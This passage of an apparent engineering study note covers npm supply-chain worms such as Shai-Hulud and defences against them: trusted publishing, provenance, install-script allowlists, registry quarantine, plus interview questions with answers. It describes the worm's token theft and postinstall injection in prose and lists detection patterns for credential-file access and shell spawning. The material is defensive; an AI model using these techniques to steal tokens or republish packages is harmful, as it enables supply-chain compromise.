    environment: npm-release # Optional environment gate requiring human approval

    steps:
      - name: Checkout repository
        uses: actions/checkout@v6

      - name: Setup Node.js runtime
        uses: actions/setup-node@v6
        with:
          node-version: '24' # Node 24 bundles npm 11; trusted publishing needs npm 11.5.1+
          registry-url: 'https://registry.npmjs.org'

      - name: Install dependencies securely
        run: npm ci --ignore-scripts

      - name: Publish with automated Sigstore provenance
        run: npm publish --access public
```

### 2. Cryptographic Provenance and Attestation

To eliminate the Git-versus-tarball discrepancy, package registries and build systems have adopted cryptographic attestations based on the in-toto framework and Sigstore (see [[Sigstore-Keyless-Signing-Cosign-Fulcio-and-Rekor]] and [[In-Toto-Layouts-Link-Metadata-and-DSSE-Attestations]]).
When packages are published via npm Trusted Publishing from GitHub Actions or GitLab CI/CD, npm automatically generates and publishes a SLSA (Supply-chain Levels for Software Artifacts) build provenance attestation (npm docs; see [[SLSA-Framework-Build-and-Source-Tracks]]).
This attestation cryptographically links the published tarball digest to the source Git commit SHA, repository URL, and workflow run.
Consumers verify registry signatures and provenance of installed packages using the npm CLI:

```bash
npm audit signatures
```

This check runs after installation and reports, rather than blocks, packages whose signatures or attestations fail; a worm-published version simply has no provenance, so consumers must treat a missing attestation on a package that previously had one as a red flag.
npm states that provenance "does not guarantee the package has no malicious code"; it proves where a package was built, not that the build was authorized, and Mini Shai-Hulud's 84 TanStack versions carried cryptographically valid SLSA provenance (npm docs, SLSA project).

### 3. Default-Deny Execution Architecture

The fundamental mistake of the early JavaScript toolchain was adopting a default-allow model for arbitrary code execution during installation.
Modern toolchain architecture mandates default-deny:
- Package installations must be pure archive extraction operations.
- Build scripts (`node-gyp`, compilation) must be explicitly opted into by the consumer through explicit allowlists (`allowBuilds` in pnpm 11 and later, `onlyBuiltDependencies` in pnpm 10, `allowScripts` in npm 11, which is advisory as of 2026-11).
- npm states that a future release will block unreviewed install scripts (npm-approve-scripts docs).
  This note makes no claim about OS-level sandboxing of install scripts by package managers; none of the primary sources checked documents one.

### 4. Registry Anomaly Detection and Publishing Throttling

Public package registries operate as critical infrastructure; the controls below are design goals a registry can adopt, and npm's documented September 2025 response was IoC-based upload blocking and the token and 2FA roadmap (GitHub, 2025-09-22), not the two behavioral controls first listed here:
- **Rate-Limiting on Mass Publishing (design goal):**
  npm does not document per-account publish-velocity throttling.
  The goal is that a rapid burst of 20 package releases across disparate namespaces from an unfamiliar IP address or user-agent triggers automated publishing throttling and account review.
- **Detonation Sandboxing (design goal):**
  No registry checked documents pre-distribution detonation; what GitHub documented for npm in September 2025 is blocking uploads that contain a known malware's IoCs.
  The goal is that new package tarballs are analyzed in isolated execution sandboxes before CDN cache propagation, flagging attempts to access sensitive files (`~/.npmrc`, `~/.aws`) or spawn shell processes.
- **Phishing-Resistant MFA:**
  npm's roadmap removes the option to bypass 2FA for local publishing and deprecates TOTP in favor of FIDO-based 2FA (GitHub, 2025-09-22).

### 5. Enterprise Ingestion and Quarantine Architecture

Enterprise engineering organizations cannot rely solely on upstream registries for protection.
Modern enterprises route all package installations through private proxy registries (such as JFrog Artifactory or Sonatype Nexus) configured with an automated quarantine perimeter (see [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]]):
- **Cooldown Window:**
  Newly published package releases are held in a quarantine buffer for a defined holding period (e.g. 48 to 72 hours).
  Because package worms have so far been publicly reported within about a day of the first malicious publish (wave 1: first publish 2025-09-14 17:58 UTC, first reports 2025-09-15), a cooldown window blocks automated propagation into enterprise fleets.
  Clients now ship the same control: npm's `min-release-age` (days) and pnpm's `minimumReleaseAge`, which defaults to 1 day since pnpm 11.0.0 (as of 2026-11, Both).
- **Immutable Lockfile Enforcement:**
  Production CI/CD pipelines must strictly enforce frozen lockfiles (`npm ci --ignore-scripts` or `pnpm install --frozen-lockfile`), failing immediately if an unpinned transitive version is introduced.

## Interview Questions

### L5

**1. Explain what happens under the hood when a package specifies a `preinstall` script in `package.json`, and how `--ignore-scripts` alters this behavior.**

> [!success]- Answer
> During `npm install`, npm resolves the package dependency tree and extracts the package archive into `node_modules`.
> After the files are in place, npm runs the package's `preinstall`, then `install`, then `postinstall` scripts through `@npmcli/run-script`.
> On POSIX systems, `@npmcli/promise-spawn` launches `sh -c <script>` through Node's `child_process.spawn`.
> On Windows, it launches `cmd.exe /d /s /c <script>` (or whatever `%ComSpec%` names).
> This child process executes with the full user identity (UID/GID), working directory access, environment variables (`process.env`), and network socket permissions of the invoking user.
> When `--ignore-scripts` (or `npm config set ignore-scripts true`) is passed, npm extracts and links the package files but does not run the lifecycle scripts.
> The script text remains unexecuted on disk, preventing arbitrary code execution during installation.

**2. Predict the output.**
**An engineer runs the following test script inside a project directory:**

```javascript
// test-install.js
const { execSync } = require('child_process');

console.log('NODE_ENV:', process.env.NODE_ENV || 'undefined');
console.log('INIT_CWD:', process.env.INIT_CWD ? 'present' : 'missing');

try {
  const result = execSync('echo "HOOK_EXEC"', { stdio: 'pipe' }).toString().trim();
  console.log('EXEC_RESULT:', result);
} catch (err) {
  console.log('EXEC_FAILED');
}
```

**What is the output when this script is executed via `npm run test-hook` versus when executed via a lifecycle script during `npm install --ignore-scripts`?**

> [!success]- Answer
> When executed via `npm run test-hook`, npm executes the script via `sh -c "node test-install.js"`.
> The output is (assuming `NODE_ENV` is not set in the caller's environment):
> ```text
> NODE_ENV: undefined
> INIT_CWD: present
> EXEC_RESULT: HOOK_EXEC
> ```
> `INIT_CWD` is set by npm to the directory from which the command was invoked.
> `execSync` successfully launches a subshell and prints `HOOK_EXEC`.
> However, when `npm install --ignore-scripts` is executed, the script is never invoked by npm at all.
> The output is completely empty because npm never spawns the lifecycle process.

### L6

**3. Debug this.**
**A platform security engineer adds `npm config set ignore-scripts true` to an enterprise CI/CD base image to prevent registry worm infections.**
**Immediately, multiple pipelines that run browser-based end-to-end tests with `puppeteer` pass `npm ci` but fail in the test step with an error that begins:**

```text
Error: Could not find Chrome (ver. <version>). This can occur if either
 1. you did not perform an installation before running the script (e.g. `npx puppeteer browsers install chrome`) or
 2. your cache path is incorrectly configured (which is: <cacheDirectory>).
```

(Message template from `packages/puppeteer-core/src/node/BrowserLauncher.ts` in the puppeteer repository, as of 2026-11.)

**Diagnose why this failure occurred and provide the production-grade architectural resolution.**

> [!success]- Answer
> The failure occurs because `puppeteer` downloads its browser in a lifecycle script (`postinstall: node install.mjs`, as of 2026-11), and `bcrypt` (`install: node-gyp-build`) or `canvas` likewise rely on install scripts to fetch or compile native code.
> When `ignore-scripts true` is set globally, those scripts never execute, leaving the browser or native binding missing.
> Note what this does not explain: Next.js ships its `@next/swc-*` binaries as `optionalDependencies` with no install scripts, so a "Cannot find module '@next/swc-linux-x64-gnu'" error points at skipped optional dependencies (for example `--omit=optional` or a lockfile generated on another platform), not at `ignore-scripts`.
> To fix this in production without exposing the pipeline to untrusted lifecycle scripts:
> 1. Use `pnpm` with an explicit allowlist (`allowBuilds: { puppeteer: true }` in `pnpm-workspace.yaml` on pnpm 11 and later, `onlyBuiltDependencies` on pnpm 10), while blocking scripts in all other dependencies.
> 2. Alternatively, in an npm environment, run installation in two separated phases; because `npm rebuild` also honours `ignore-scripts`, the global setting must be overridden on the rebuild command:
>    ```bash
>    # Step 1: Install with scripts disabled
>    npm ci --ignore-scripts
>    # Step 2: Explicitly rebuild only approved, vetted packages
>    npm rebuild puppeteer bcrypt --ignore-scripts=false
>    ```
> 3. For browsers specifically, a separate explicit step (`npx puppeteer browsers install chrome`) makes the download visible and pinnable.
> This ensures untrusted transitive packages cannot execute arbitrary code while approved native tools build cleanly.

**4. Derive the reproduction number $R_0 = p \cdot k$ for a self-replicating package registry worm and explain why bipartite maintainer graphs accelerate lateral spread.**

> [!success]- Answer
> In an automated registry worm, $R_0 = p \cdot k$, where:
> - $k$ is the number of packages poisoned per infected maintainer (bounded by API batch limits, such as $k \le 20$ in the first Shai-Hulud wave and $k \le 100$ in Shai-Hulud 2.0).
> - $p$ is the probability that a poisoned package version is installed by another package maintainer with active registry publish credentials before the poisoned release is unpublished or revoked.
> If $p > \frac{1}{k}$ (for $k = 20$, $p > 0.05$), $R_0 > 1$, resulting in exponential propagation across the ecosystem.
> The package ecosystem forms an undirected bipartite graph $G = (M, P, E)$, connecting maintainers $M$ to packages $P$.
> Unlike random networks, maintainer-package graphs exhibit heavy-tailed degree distributions: a small subset of "hub" maintainers maintain dozens of packages spanning disparate functional domains (e.g., frontend utilities, backend microservices, testing frameworks).
> When a worm infects a hub maintainer, it infects packages across these disjoint domains simultaneously.
> Downstream developers in completely unrelated sectors pull these packages due to permissive semantic versioning wildcards (`^`), rapidly bridging network components that are otherwise isolated.

**5. Explain why Git-based static code analysis and pull request reviews failed to detect the Shai-Hulud worm in packages like `@ctrl/tinycolor`.**

> [!success]- Answer
> Traditional code review and Git-based security scanning operate on the source repository hosted on GitHub or GitLab.
> In the Shai-Hulud compromise, the malicious payload never entered the package's source history.
> The source tree on GitHub had no pull requests or commits carrying `bundle.js`; the worm's only Git writes were separate `shai-hulud` branches with an exfiltration workflow in repositories its stolen GitHub tokens could reach.
> Instead, the worm exploited the registry artifact boundary: using stolen `NPM_TOKEN` credentials, the malware manipulated an unpacked copy of the package tarball (`.tgz`) in temporary storage, added the `postinstall` hook to `package.json`, and executed `npm publish` directly to `registry.npmjs.org`.
> Because downstream package consumers pull release tarballs from the npm registry rather than cloning the Git repository, consumers ingested the backdoored code while automated Git scanners (SonarQube, CodeQL, ESLint) reported zero findings.
> Verifying cryptographic provenance attestations (e.g., Sigstore/SLSA) that prove the registry tarball was built from a specific, reviewed Git commit closes this gap for token-based publishes, though Mini Shai-Hulud showed that a compromised release pipeline can still emit valid provenance.

### L7 and L8+

**6. Architect an enterprise package ingestion perimeter that protects thousands of developers and CI runners from self-propagating registry worms while maintaining developer velocity and supporting native modules.**

> [!success]- Answer
> A robust enterprise defense perimeter implements a defense-in-depth architecture across four distinct layers:
> 1. **Ingestion Proxy and Quarantine Buffer:**
>    - All developer workstations and CI runners are prohibited from connecting directly to `registry.npmjs.org`.
>    - All traffic routes through an internal proxy registry (e.g. JFrog Artifactory or Sonatype Nexus).
>    - The proxy enforces a mandatory 72-hour quarantine holding period on all newly published versions, backed on clients by npm `min-release-age` or pnpm `minimumReleaseAge`.
>    - Because self-replicating worms like Shai-Hulud cause rapid ecosystem-wide disruptions that have so far been reported within about a day, the quarantine window stops the worm from reaching enterprise internal networks before upstream removal occurs.
> 2. **Client-Side Script Hardening:**
>    - Standardize on `pnpm` with `allowBuilds` (pnpm 11 and later) enforced via repository policy templates.
>    - Block automatic script execution by default; require engineering security review to add a native package (e.g. `bcrypt`) to the allowlist.
> 3. **Isolated CI/CD Execution:**
>    - Execute `npm ci --ignore-scripts` inside ephemeral, non-root containers.
>    - For packages requiring native compilation, execute `npm rebuild <package>` inside a container execution stage with network isolation (`--network none`) and read-only root filesystems.
>    - Block container access to cloud instance metadata endpoints (`http://169.254.169.254`) via host iptables/nftables rules.
> 4. **Tokenless Publishing Architecture:**
>    - Eliminate all static `NPM_TOKEN` secrets from enterprise repository secrets and developer workstations.
>    - Enforce OIDC Trusted Publishing with short-lived tokens minted exclusively during protected tag releases in GitHub Actions or GitLab CI, and keep release jobs off shared caches and `pull_request_target` workflows.

**7. Compare the security architecture of OIDC-based Trusted Publishing against legacy static npm automation tokens.**

> [!success]- Answer
> The architectural comparison spans token storage, cryptographic trust boundaries, scopes, and lifetime:
> - **Legacy Static Tokens:**
>   - *Storage:* Generated via `npm token create`, stored as plaintext in `~/.npmrc` on developer laptops or as long-lived secrets (`NPM_TOKEN`) in CI repository settings.
>   - *Lifetime:* Classic tokens were indefinite until npm revoked them all on 2025-12-09; write-enabled granular tokens are now capped at 90 days.
>   - *Scope:* Broad account-level or organization-level read/write authority across all packages.
>   - *Failure Mode:* Ambient credential scavenging by lifecycle scripts allows instant unauthorized publication across all maintained packages.
> - **OIDC-Based Trusted Publishing:**
>   - *Storage:* Zero static secrets stored on disk or in repository settings.
>   - *Cryptographic Handshake:*
>     The CI runner requests an OpenID Connect JSON Web Token (JWT) from GitHub's token authority (`id-token: write`).
>     The JWT contains cryptographically signed claims specifying the exact `repository`, `workflow`, `ref`, and `environment`.
>   - *Registry Verification:* The registry fetches GitHub's public JSON Web Key Sets (JWKS), verifies the signature, and matches the token claims against the package's configured publishing policy.
>   - *Lifetime:* The registry issues a short-lived publish token (npm does not document the exact lifetime).
>   - *Scope:* Strictly bound to the single package configured for that workflow.
>   - *Failure Mode:* A compromised install script finding no static tokens cannot publish packages, and an attacker cannot mint a valid OIDC token outside the designated release workflow; an attacker who gets code running inside that workflow (as Mini Shai-Hulud did via cache poisoning) can still publish.

**8. As chief architect of a public package registry (e.g., npmjs.com), design an automated real-time defense system to detect and throttle self-replicating worm campaigns without breaking legitimate monorepo mass-release workflows.**

> [!success]- Answer
> To stop self-replicating worms while permitting legitimate bulk releases (such as an enterprise releasing 50 monorepo packages simultaneously via Lerna or Changesets):
> 1. **Authentication and Provenance Tiering:**
>    - Apply lighter, not zero, throttling to packages published via OIDC Trusted Publishing with signed SLSA provenance: worms on developer machines cannot forge OIDC workflow claims, but Mini Shai-Hulud showed a hijacked release pipeline can produce valid ones.
>    - Apply strict heuristics to static-token publications, and flag a trust downgrade (a package that previously had provenance publishing without it).
> 2. **Behavioral Rate-Limiting and Graph Anomaly Detection:**
>    - Implement token publication velocity limits: flag any static token publishing more than 5 distinct packages within a 120-second sliding window.
>    - When velocity thresholds are breached, do not immediately fail the publish; instead, place subsequent packages into a 15-minute asynchronous verification queue (soft throttle).
> 3. **Pre-Distribution Detonation Sandboxing:**
>    - Before distributing a newly published tarball to CDN edge nodes, pass the package through an automated containerized detonation sandbox.
>    - The sandbox runs `npm install` inside an instrumented microVM (e.g. Firecracker with eBPF tracing) and monitors:
>      - Filesystem access to `~/.npmrc`, `~/.aws`, `~/.ssh`, or environment variables matching `*TOKEN*` or `*SECRET*`.
>      - Outbound HTTP requests directed at `api.github.com/user/repos` or external webhooks.
>      - Dynamic invocation of `npm publish` or child process spawning of `sh`/`bash`.
>    - If malicious behavior is detected, automatically freeze the maintainer account, revoke all associated tokens, purge the queued releases, and alert registry security operations.

## References

- Cybersecurity and Infrastructure Security Agency, "Widespread Supply Chain Compromise Impacting npm Ecosystem", 2025-09-23: https://www.cisa.gov/news-events/alerts/2025/09/23/widespread-supply-chain-compromise-impacting-npm-ecosystem (official federal alert: scope, exfiltration paths, and mitigation requirements)
- ReversingLabs, "Shai-hulud supply chain attack spreads token-stealing malware on npm", 2025: https://www.reversinglabs.com/blog/shai-hulud-worm-npm (patient zero, postinstall injection, data.json exfiltration, private repo migration)
- Socket Research Team, "Updated and Ongoing Supply Chain Attack Targets CrowdStrike npm Packages", 2025-09-16: https://socket.dev/blog/ongoing-supply-chain-attack-targets-crowdstrike-npm-packages (to-the-second publish timeline and worm version history)
- Ashish Kurmi, StepSecurity, "Shai-Hulud: Self-Replicating Worm Compromises 500+ NPM Packages", 2025-09-15: https://www.stepsecurity.io/blog/ctrl-tinycolor-and-40-npm-packages-compromised (deobfuscated propagation and GitHub workflow backdoor)
- Palo Alto Networks Unit 42, "Shai-Hulud Worm Compromises npm Ecosystem in Supply Chain Attack" (updated 2025-11-26): https://unit42.paloaltonetworks.com/npm-supply-chain-attack/ (both waves, wiper conditions, hunting queries)
- Wiz Research, "Shai-Hulud 2.0 Supply Chain Attack: 25K+ Repos Exposing Secrets", 2025-11-24: https://www.wiz.io/blog/shai-hulud-2-0-ongoing-supply-chain-attack (2.0 upload window, scale, self-hosted runner backdoor)
- Datadog Security Labs, "The Shai-Hulud 2.0 npm worm: analysis, and what you need to know", 2025-11-25: https://securitylabs.datadoghq.com/articles/shai-hulud-2.0-npm-worm/ (2.0 attack flow, 100-package propagation, shred wiper code)
- GitHub, "Our plan for a more secure npm supply chain", 2025-09-22: https://github.blog/security/supply-chain-security/our-plan-for-a-more-secure-npm-supply-chain/ (containment actions and token, 2FA, and trusted publishing roadmap)
- GitHub Changelog, "npm classic tokens revoked, session-based auth and CLI token management now available", 2025-12-09: https://github.blog/changelog/2025-12-09-npm-classic-tokens-revoked-session-based-auth-and-cli-token-management-now-available/
- npm Docs, "Trusted publishing for npm packages": https://docs.npmjs.com/trusted-publishers (OIDC flow, CLI and Node version requirements, automatic provenance)
- npm CLI Team, "npm-scripts Documentation and Lifecycle Hooks Specification", 2026: https://docs.npmjs.com/cli/using-npm/scripts (official specification of npm lifecycle hooks and execution order)
- pnpm Team, package.json and settings documentation, 2026: https://pnpm.io/package_json and https://pnpm.io/cli/approve-builds (current build-approval model)
- SLSA project, "Mini Shai-Hulud: what SLSA can and cannot do", 2026-05: https://slsa.dev/blog/2026/05/mini-shai-hulud-what-slsa-can-and-cannot-do (valid provenance from a hijacked release pipeline)
- Elastic Security Labs, "Shai-Hulud CHAINDROP npm supply chain campaign", 2026-08: https://www.elastic.co/security-labs/shai-hulud-chaindrop-npm-supply-chain

## Related

- Prerequisites: [[Dependency-Confusion-Typosquatting-and-Registry-Attacks]]
- Next: [[Case-Study-Event-Stream-and-Maintainer-Handoff]]
- See also:
  - [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]]
  - [[Audit-and-Harden-a-GitHub-Actions-Release-Pipeline]]
  - [[Sigstore-Keyless-Signing-Cosign-Fulcio-and-Rekor]]
  - [[SLSA-Framework-Build-and-Source-Tracks]]
  - [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]]
  - [[Reproducible-Builds-as-a-Security-Control]]
  - [[Case-Study-XZ-Utils-Backdoor-CVE-2024-3094]]
  - [[Case-Study-Codecov-Bash-Uploader-and-TJ-Actions]]
